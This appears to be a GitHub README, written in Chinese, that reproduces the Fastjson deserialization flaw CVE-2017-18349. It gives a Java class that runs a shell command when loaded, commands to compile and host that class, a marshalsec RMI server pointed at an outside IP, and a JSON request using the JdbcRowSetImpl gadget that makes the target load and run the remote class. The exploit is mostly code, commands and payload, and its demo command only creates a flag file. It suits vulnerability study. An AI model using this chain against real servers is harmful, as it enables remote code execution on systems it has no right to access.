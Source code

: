 # Fastjson--CVE-2017-18349-Cancel changes
将项目设置为一个Maven项目后执行(注意,使用高版本的JDK可能会失败,建议使用版本为1.8.65的JDK)
FastjsondemoApplication.java 的main函数即可
TouchFile.java文件

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
  static {
      try {
          Runtime rt = Runtime.getRuntime();
          String[] commands = {"touch", "/tmp/flag_test"};
          Process pc = rt.exec(commands);
          pc.waitFor();
      } catch (Exception e) {
          // do nothing
      }
  }
}
```
之后同样使用版本为8的javac编译为class文件
```bash
javac TouchFile.java
```
Python开启web服务
```bash
python -m SimpleHTTPServer 80
```
使用marshalsec生成RMIServer
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://47.99.70.18/#TouchFile" 9999
```
修改请求包
```http
POST / HTTP/1.1
Host: 127.0.0.1:8080

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://47.99.70.18:9999/TouchFile",
        "autoCommit":true
    }
}
```
效果: ![图片](https://user-images.githubusercontent.com/81439858/163436838-fa408536-9b3a-4055-b693-9b9f7a70f4e2.png)
